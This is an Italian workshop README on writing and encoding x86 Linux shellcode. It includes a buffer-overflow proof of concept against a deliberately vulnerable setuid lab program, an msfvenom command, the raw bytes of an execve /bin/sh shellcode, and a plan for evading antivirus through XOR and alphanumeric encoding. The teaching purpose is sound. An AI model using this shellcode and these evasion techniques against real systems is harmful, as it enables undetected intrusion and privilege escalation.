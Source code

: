 # x86 shellcoding cakestar

## Introduzione

Quando facciamo un penetration test, il più delle volte utilizziamo exploit già
pronti o usiamo strumenti come msvfenom per creare un payload con qualche
opzione particolare.

Esistono situazioni dove hai bisogno di essere più creativo: devi evitare
l'antivirus, devi nasconderti dall'IDS o semplicemente vuoi divertirti un po'
ed avere il pieno controllo del codice che sarà eseguito sulla macchina.

Ecco, in questo talk vedremo come fare evolvere uno shellcode in ambiente Linux
x86 aggiungendo riscrittura nel nostro codice e creando un encoder custom.

Il bypass dell'antivirus forse non sarà garantito, ma il divertimento... quello
sì.

## Slide

Le slide sono disponibili [qui](https://docs.google.com/presentation/d/1IbfUypkz_y0By-lPAp0EZFMTUz8DsI6-G2jQcqt6wKU)

## A chi è rivolto?

* Penetration tester 
* Analisti SOC 
* Sviluppatori

## Livello di difficoltà

BASSO

## Skill richieste

* Conoscenze base di assembler x86
* Sapere cos'è una _system call_
* Un pizzico di python o ruby o il linguaggio che più vi piace a cui accodare
  il nostro shellcode.

## Cosa mi serve

* Una macchina virtuale Linux per lo sviluppo (scriveremo assembler per x86, quindi a 32 bit).
  * Ubuntu 20.04
  * apt install apt install python3 gcc-multilib nasm gdb
  * peda: https://github.com/longld/peda
  * clonate l'archivio https://github.com/thesp0nge/HackInBoSafeEdition
  * Disabilito ASLR "echo 0 > /proc/sys/kernel/randomize_va_space"

## Preparo la vittima

Ho bisogno di compilare il programma vittima per iniziare le esercitazioni.

``` sh
$ cd victim
$ ./compile.sh pwnme.c
$ sudo "chown root:root pwnme"
$ sudo "chmod +s pwnme"
```

## L'inizio della nostra storia

Da una analisi precedente sappiamo che il software pwnme è vulnerabile a buffer
overflow. Il contenuto del file pwnme.txt, necessario al funzionamento del
nostro tool, vieme copiato in una variabile, purtroppo senza fare un controllo
sulla lunghezza dei dati letti da file.

Nel caso il file di testo sia costituito da troppi caratteri, dopo 84 byte
avremmo la sovrascittura del registro EIP e di fatto, l'inizio della nostra
storia.

Il PoC del nostro exploit sarà questo:
``` python
#!/usr/bin/env python3

import os;

eip="BBBB"
shellcode = "A"*84+eip+"C"*200
f = open("pwnme.txt","w")
f.write(shellcode)
f.close()
```

Abbiamo provato con metasploit a generare un payload con il comando:

```sh
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o a.out
```

Purtroppo veniamo individuati da alcuni antivirus, quindi dobbiamo trovare un
altro modo per scrivere il nostro shellcode.

![Il payload di msfvenom su VirusTotal](/images/msfvenom.png)

### Disclaimer

Questo talk non è su come trovare un buffer overflow ma su come customizzare il
nostro shellcode. Il programma vulnerabile quindi è stato scritto introducendo
la vulnerabilità in maniera forzata, in particolare:

* è stato aggiunto dell'inline assembler per mettere a disposizione
  l'istruzione JMP ESP
* avendo disattivato la randomizzazione dello stack, ho il nuovo valore del
  registro EIP sempre fisso

Queste tecniche possono ingannare strumenti basati su signature. Strumenti
evoluti che provano ad eseguire il codice in sandbox potrebbero comunque
riconoscere i nostri payload. Un security engineer che troverà il payload e ne
farà il reverse sarà comunque in grado di riconoscerne il contenuto malevolo.

## Shellcode

Andremo ad analizzare lo shellcode che esegue "/bin/sh" e queste saranno le tappe del nostro viaggio:
* v1.0: da dove arriva
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"?
   (https://www.virustotal.com/gui/file/d2b927c46e08ddb7f4d8471247e7008f7200ca24962094d343248e9a7a0fe870/detection)
* v2.0: manovre evasive! (https://www.virustotal.com/gui/file/93f5fc907caa0a5e00e320b59a13059e28c243f13c75ef5c5309eff23dfe15be/detection)
* v2.1: diamoci dei privilegi (https://www.virustotal.com/gui/file/1596d2642b5656ee0e8cf137c097a308329d3cbdcb238c921a605e0b148b9959/detection)
* v2.5: togliamo i null byte (https://www.virustotal.com/gui/file/d98b0c36e6dacd22f4f5b1192b7d630221346fb5b2a177eaa00dc1a944aa232f/detection)
* v3.0: torniamo all'alfabeto
  + prendo il mio shellcode e lo scrivo con un set ristretto di operazioni
  + allineo il mio shellcode in modo che sia composto da un numero intero di
    parole a 32 bit. Nel caso appendo tanti \x90 alla bisogna.
  + per impostare un registro a 0 posso scegliere un numero a 32 bit a caso,
    calcolarne il NOT e poi fare l'AND tra il registro e questi due valori.
    Come risultato avremmo che il registro sarà sempre a 0 qualsiasi sia il suo
    valore iniziale.
  * per scrivere una parola da 32bit, la scriverò come somma di 2 interi che ho
    "estratto" a caso
  * ogni volta mi sottrarrò 4 a EBX che sarà il mio puntatore all'inizio dello
    shellcode.
  * JMP EBX alla fine ed inizierà il mio shellcode che ho decodificato
    direttamente nello stack

  > L'ispirazione per questo shellcode è presa da [questo articolo su
  > Phrack](http://phrack.org/issues/57/15.html#article) e da [questo
  > talk](https://www.youtube.com/watch?v=gHISpAZiAm0) di Mati Aharoni tenuto a
  > Defcon16
* v4.0: nascondino (bonus tip: il mistero del segfault solitario) (https://www.virustotal.com/gui/file/9de443e65e82833c66910bbdee23b1bfea7635adcb5c8cc5a6d7cccd04d47a22/detection)
  + uso un loop di XOR dove decodifico lo shellcode con la chiave 0xdeadbeef
    usata per offuscare il codice
  + faccio uno swap tra la prima e la seconda metà di ogni word

